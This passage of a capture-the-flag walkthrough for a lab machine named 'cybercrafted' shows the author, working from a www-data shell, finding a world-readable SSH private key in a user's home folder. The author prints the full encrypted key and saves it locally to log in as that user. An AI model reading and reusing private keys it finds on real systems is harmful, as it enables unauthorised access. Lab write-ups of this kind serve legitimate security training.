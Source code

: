 The SSH folder is also open to us. Let's keep this going...

```
www-data@cybercrafted:/home/xxxxxxxxxxxxxxxxxxx/.ssh$ ls -al
total 16
drwxrwxr-x 2 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Jun 27 09:35 .
drwxr-xr-x 5 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Oct 15 20:43 ..
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx  414 Jun 27 09:33 authorized_keys
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 1766 Jun 27 09:33 id_rsa
```
I see a private key (`id_rsa`) that is viewable to anyone. I'm going to copy the contents of the file and paste them into a file on my machine and use that private key to attempt to login as this user.

First we need to cat out the file

```
www-data@cybercrafted:/home/xxxxxxxxxxxxxxxxxxx/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
SCc7TmWJgI/Bt6k9J60WNThmjKdYTuaLymOVJjiajho799BnAQWE89jOLwE3VA5m
SfcytNIJkHHQR67K2z2f0noCh2jVkM0sx8QS+hUBeNWT6lr3pEoBKPk5BkRgbpAu
lSkN+Ubrq2/+DA1e/LB9u9unwi+zUec1G5utqfmNPIHYyB2ZHWpX8Deyq5imWwH9
FkqfnN3JpXIW22TOMPYOOKAjan3XpilhOGhbZf5TUz0StZmQfozp5WOU/J5qBTtQ
sXG4ySXCWGEq5Mtj2wjdmOBIjbmVURWklbsN+R6UiYeBE5IViA9sQTPXcYnfDNPm
stB2ukMrnmINOu0U2rrHFqOwNKELmzSr7UmdxiHCWHNOSzH4jYl0zjWI7NZoTLNA
eE214PUmIhiCkNWgcymwhJ5pTq5tUg3OUeq6sSDbvU8hCE6jjq5+zYlqs+DkIW2v
VeaVnbA2hij69kGQi/ABtS9PrvRDj/oSIO4YMyZIhvnH+miCjNUNxVuH1k3LlD/6
LkvugR2wXG2RVdGNIwrhtkz8b5xaUvLY4An/rgJpn8gYDjIJj66uKQs5isdzHSlf
jOjh5qkRyKYFfPegK32iDfeD3F314L3KBaAlSktPKpQ+ooqUtTa+Mngh3CL8JpOO
Hi6qk24cpDUx68sSt7wIzdSwyYW4A/h0vxnZSsU6kFAqR28/6pjThHoQ0ijdKgpO
8wj/u29pyQypilQoWO52Kis4IzuMN6Od+R8L4RnCV3bBR4ppDAnW3ADP312FajR+
DQAHHtfpQJYH92ohpj3dF5mJTT+aL8MfAhSUF12Mnn9d9MEuGRKIwHWF4d1K69lr
0GpRSOxDrAafNnfZoykOPRjZsswK3YXwFu3xWQFl3mZ7N+6yDOSTpJgJuNfiJ0jh
MBMMh4+r7McEOhl4f4jd0PHPf3TdxaONzHtAoj69JYDIrxwJ28DtVuyk89pu2bY7
mpbcQFcsYHXv6Evh/evkSGsorcKHv1Uj3BCchL6V4mZmeJfnde6EkINNwRW8vDY+
gIYqA/r2QbKOdLyHD+xP4SpX7VVFliXXW9DDqdfLJ6glMNNNbM1mEzHBMywd1IKE
Zm+7ih+q4s0RBClsV0IQnzCrSij//4urAN5ZaEHf0k695fYAKMs41/bQ/Tv7kvNc
T93QJjphRwSKdyQIuuDsjCAoB7VuMI4hCrEauTavXU82lmo1cALeNSgvvhxxcd7r
1egiyyvHzUtOUP3RcOaxvHwYGQxGy1kq88oUaE7JrV2iSHBQTy6NkCV9j2RlsGZY
fYGHuf6juOc3Ub1iDV1B4Gk0964vclePoG+rdMXWK+HmdxfNHDiZyN4taQgBp656
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----
```

Then copy and paste the contents into a file on our own box. Don't forget to change the permissions of the file after you save it: `chmod 400 admin_rsa`

With the private key, we can now attempt to login as the admin:
